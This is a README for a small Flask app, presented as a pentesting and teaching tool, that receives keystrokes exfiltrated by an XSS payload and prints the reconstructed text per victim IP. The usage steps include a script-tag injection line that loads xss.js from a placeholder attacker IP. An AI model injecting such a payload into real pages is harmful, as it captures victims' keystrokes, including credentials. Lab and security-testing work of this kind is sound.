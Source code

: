 # Simple Flask Keylogger for XSS

## Overview
This is a minimal Flask application designed for pentesting and educational purposes. It captures keystrokes sent via XSS payloads and prints the reconstructed typed text to the console. The app groups keystrokes based on a configurable idle timeout to help reconstruct words and sentences typed by the user.

---

## What is XSS?

Cross-Site Scripting (XSS) is a security vulnerability typically found in web applications that allows attackers to inject malicious scripts into webpages viewed by other users. By injecting JavaScript, an attacker can capture user inputs such as keystrokes, cookies, or other sensitive data. This app simulates the backend to capture such keystroke data sent from a victim’s browser during an XSS attack for lab/testing purposes only.

---

## Features

- Listens for incoming HTTP GET requests containing keystrokes as query parameters.
- Buffers keystrokes per client IP and prints the buffered string after a configurable idle timeout.
- Serves the JavaScript payload (`xss.js`) from the same Flask server.
- Prints captured keystrokes with timestamps to the console in grouped bursts.

---

## Usage

1. Clone this repository.
2. Install dependencies:
   ```pip install flask```
3. Modify xss.js to insert your IP address.
4. Run the Flask app (default port 80):
  ```sudo python3 app.py```
5. Inject the following script tag on your target page (adjust IP/port as needed):
  ```<script src="http://YOUR_IP/xss.js"></script>```
